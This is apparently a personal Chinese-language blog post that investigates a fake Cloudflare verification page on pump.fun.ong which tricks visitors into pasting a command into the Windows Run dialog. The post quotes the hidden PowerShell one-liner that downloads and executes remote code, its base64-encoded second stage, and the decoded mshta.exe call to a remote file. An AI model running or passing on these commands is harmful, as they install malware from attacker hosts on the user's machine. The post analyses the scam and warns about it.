

# 前言
从B站上看到有人叫骗了，网站**pump.fun.ong**，就来凑个热闹
# 研究
访问网站发现有Cloudflare的防火墙，但是竟然让我Win+R，Ctrl+V，Enter ？  
这是什么新的社工方式？

```ps
powershell.exe -WindowStyle Hidden -Command "$oip='pump.fun.ong'; $eip=iwr $oip; iex $eip" #  🔸 Cloudflare Unique Code: 49993797784757248066625515
```
问了问ChatGPT，搞了个命令给要执行的命令下载下来了
```ps
Invoke-WebRequest -Uri "http://pump.fun.ong" -OutFile "payload.txt"
```
打开payload.txt为
```ps
powershell -ec "QwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAG0AcwBoAHQAYQAuAGUAeABlACAAIgBoAHQAdABwAHMAOgAvAC8AbABpAG4AawB0AHIAZQBlAC4AbABhAC8AQQBwAHIAaQBsAFIAZQBkAEcAcgBhAHAAZQAuAHQAeAB0ACIA"
```
翻译一下，其实是执行
```ps
C:\Windows\System32\mshta.exe "https://linktree.la/AprilRedGrape.txt"
```
又给这个AprilTedGrape.txt下载下来了  
具体内容感兴趣可以自己下载下来看看，我用沙盒执行了一下，许多内容都没有渲染出来，不知道先前的哥们是咋叫骗得
# 后记
虽说研究到一半就停止了，但收获了很多知识  
不过话说真的有人信这个执行命令的Cloudflare吗？
